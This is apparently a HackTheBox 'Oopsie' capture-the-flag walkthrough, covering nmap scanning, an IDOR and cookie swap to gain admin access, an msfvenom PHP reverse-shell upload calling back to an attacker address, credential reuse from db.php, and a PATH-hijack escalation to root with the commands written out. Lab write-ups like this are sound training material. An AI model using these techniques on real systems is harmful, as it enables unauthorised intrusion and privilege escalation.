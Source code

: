 # HackTheBox Oopsie
## Scanning
Initial scan

```bash
nmap 10.10.10.28 -oN init_nmap.log
```

Service discovery and default scripts on found ports

```bash
nnamp 10.10.10.28 -sV -sC -p 80,22 -oN portscan_nmap.log
```

## Checking out the website
Website seems to contain `/cdn-cgi/login/script.js` file in sourcecode. Lets check out the `/cdn-cgi/login/` page.

This page does indeed contain a login! Because this box is an extention on previous box, lets try and use the same credentials again.

## Admin interface
We have succesfully logged into the web interface. There is a menu entry `upload` in the menu bar but I can only seem to access it when i have super-admin roles.

I can see some information about my current account on the `account` page. This seems to contain an Access ID, Name and email. The access id seems to be the same as my current cookie!

Inspecting the page even more, the URL seem to contain a query parameter `&id=1`. Lets try and change this.

Changing this shows me the details of other users! Awesome! Maybe we can bruteforce this webpage until we find someone with admin rights. (See bruteforce.py).

After having found the correct user, lets change the cookie. Success! We are now super admin and are able to access the `upload` page.

## Logging into the machine
Let's create a reverse PHP shell using `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.132 LPORT=4242 -f raw -o shell.php`.
Now that we have a reverse shell, lets try and upload it and access the page.

We have now access to the machine as user `www-data`! This user can't really do much though, so lets try and escalate to another user. 

After doing some searching I have found a file named `db.php`. This file seems to contain some SQL user credentials. Because there seems to be a 'reuse credentials' flow (?) in this box, lets try and use these details to login to the system.

Success! We are now user `robert`. This user has more access but is not root. Lets read the `user.txt` flag and move on.

## Priv-esc to root
After doing some searching, I have found a file named `bugtracker`. After inspecting this file using `ltrace` it seems to call `cat` on some files inside `/root/reports`. This means that `cat` must be running using root privs!

After a lot of research online I found out I can change the `cat` command to point to something else (like bash) to priv-esc. So let's do that!

`export PATH=/tmp:$PATH`

`cd /temp/`

`echo '/bin/sh' > cat`

`chmod +x cat`

Alright, lets run the bugtracker again.

Success! We now have a root shell!